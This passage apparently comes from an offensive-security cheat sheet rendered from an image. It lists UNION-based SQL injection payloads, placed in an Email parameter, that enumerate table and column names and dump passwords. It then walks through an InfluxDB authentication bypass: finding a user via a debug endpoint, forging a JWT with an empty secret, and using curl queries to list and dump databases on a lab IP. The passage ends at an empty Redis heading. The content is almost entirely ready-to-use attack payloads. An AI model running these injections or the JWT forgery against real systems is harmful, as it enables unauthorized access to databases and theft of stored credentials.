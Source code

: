 ```
Email=' UNion select 1,2,3,concat(table_name, "@test.com") FROM information_schema.tables where table_schema="databasename" limit 1,1 -- -
```

```
Email=' UNion select 1,2,3,concat(column_name, "@test.com") FROM information_schema.columns where table_name="tablename" limit 2,1 -- -
```

```
Email= ' UNion select 1,2,3,concat(password, “@test.com”) FROM tablename limit 1,1 -- -
```

## Influx DB

### Influx DB Exploitation with curl

\*First find a vaild user by visiting the below URL

```
https://<influx-server-address>:8086/debug/requests
```

\*Create a jwt token with that user while also making sure that the token follows the below method

```
**header** - {"alg": "HS256", "typ": "JWT"} **payload** - {"username":"**<input user name here>**","exp":1548669066} **signature** - HMACSHA256(base64UrlEncode(header) + "." +base64UrlEncode(payload),<**leave this field empty>**)
```

\*Using curl, we craft the exploitation part

### listing the databases

```
curl -G http://10.10.219.28:8086/query --data-urlencode q=SHOW DATABASES; -H "Authorization: Bearer jwt token here"
```

### listing the columns

```
curl -G http://10.10.219.28:8086/query --data-urlencode q=SHOW SERIES ON db_name; -H "Authorization: Bearer jwt token here"
```

### Dumping contents of specific columns

```
curl -G http://10.10.219.28:8086/query?db=db_name --data-urlencode q=SELECT * FROM column-name; -H "Authorization: Bearer jwt token here"
```

### Redis NOSQL Database
